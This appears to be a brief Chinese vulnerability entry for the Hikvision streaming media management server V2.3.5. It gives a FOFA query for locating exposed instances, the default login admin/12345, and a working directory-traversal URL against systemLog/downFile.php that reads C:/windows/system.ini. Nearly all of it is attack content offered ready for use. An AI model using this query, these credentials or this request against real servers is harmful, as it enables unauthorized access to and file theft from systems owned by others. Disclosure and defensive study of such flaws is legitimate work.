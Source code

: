 <languages  />

漏洞影响
--------

    杭州海康威视数字技术股份有限公司 流媒体管理服务器 V2.3.5

FOFA
----

    FOFA：title="流媒体管理服务器"

默认登陆信息
------------

    admin/12345

POC
---

    http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini

成功读取 C:/windows/system.ini

参考
----

<https://mp.weixin.qq.com/s/bnXxGWs0ft0G6Qcdlf9BDw>